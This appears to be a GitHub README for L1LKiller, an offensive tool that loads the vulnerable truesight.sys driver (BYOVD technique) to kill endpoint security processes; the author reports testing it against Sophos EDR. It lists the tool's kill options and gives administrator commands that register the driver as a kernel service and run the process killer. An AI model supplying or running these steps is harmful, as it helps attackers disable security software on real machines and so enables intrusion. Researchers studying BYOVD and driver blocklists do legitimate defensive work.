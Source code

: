 <h1 align="center">「⚠️」 About L1LKiller</h1>

L1LKiller is a tool developed to exploit the `truesight.sys` driver of the Rogue Anti-Malware Driver 3.3 software through the BYOVD (Bring Your Own Vulnerable Driver) technique. About 1 year ago this vulnerability was fixed and currently the driver is present in [LOLDrivers](https://www.loldrivers.io/drivers/e0e93453-1007-4799-ad02-9b461b7e0398/) (Living Off The Land Drivers). I developed this project at the time of the release of the discovery of this driver, where I was able to successfully perform the test on Sophos EDR. Since there is already a mitigation, I decided to publish this project that I kept private for a while.

## Demonstration

https://github.com/user-attachments/assets/e9ec29cb-6869-44c2-8649-0a545c30d2e9

## Help

```
      __   _____    __ __ _ ____
     / /  <  / /   / //_/(_) / /__  _____
    / /   / / /   / ,<  / / / / _ \/ ___/
   / /___/ / /___/ /| |/ / / /  __/ /
  /_____/_/_____/_/ |_/_/_/_/\___/_/

            [Coded by Brosck]
                 [v1.0]

Usage: C:\Windows\Temp\L1LKiller\L1LKiller.exe [OPTIONS]
    Options:
      single,                   kill processes only once
      loop,                     kill processes in a loop

    Examples:
      L1LKiller.exe single
      L1LKiller.exe loop
```

## Usage

In cmd.exe as administrator:
```
sc create l1lkiller binPath="C:\Windows\Temp\L1LKiller\L1LKiller.sys" type=kernel
sc start l1lkiller
L1LKiller.exe single
```
